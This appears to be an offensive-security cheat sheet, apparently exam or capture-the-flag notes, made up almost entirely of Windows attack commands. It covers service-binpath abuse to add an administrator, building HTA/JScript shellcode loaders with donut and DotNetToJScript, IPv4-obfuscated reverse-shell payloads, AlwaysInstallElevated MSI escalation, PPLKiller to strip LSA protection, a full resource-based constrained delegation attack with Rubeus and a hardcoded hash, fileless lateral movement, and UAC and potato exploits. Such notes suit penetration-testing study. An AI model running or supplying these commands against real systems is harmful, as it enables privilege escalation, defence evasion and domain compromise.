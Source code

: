 Service Modify
---------------------
```powershell
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
```

HTA JS PAYLOAD
---------------------
DotNetToJScript
```powershell
C:\Users\ctf\Downloads\donut_v1.1\donut.exe -a 2 -f 1 -o ipv4.bin -i ipv4shell.exe
```
Change in TestClass.cs file url

Build ExampleAssemly.dll


Generate the js file
```
C:\Users\ctf\Downloads\release_v1.0.4\DotNetToJscript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js
```

```hta
<html>
<head>
<script language="JScript">
// ADD JS HERE
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

IPV4Shell - HellShell
---------------------
URL -> https://github.com/NUL0x4C/HellShell

```powershell
C:\Users\ctf\Downloads\HellShell-main\HellShell-main\x64\Release\HellShell.exe payload.bin ipv4
# Generates Ipv4Fuscation.cpp -> Modify 
Z:\Offsec\OSEP\ipv4shell\src\ipv4shell.c
```
Modify the IP values
and compile to exe

Install AlwaysElevated
-----------------------
```powershell
Create MSI Package to run
dotnet build -p:Platform=x64 -c Release
cmd.exe /c "msiexec /quiet /qn /i InstallMe.msi"
```

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
```powershell
PPLKiller.exe /installDriver
```
RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
```

uacbypass.ps1
SigmaPotato.exe
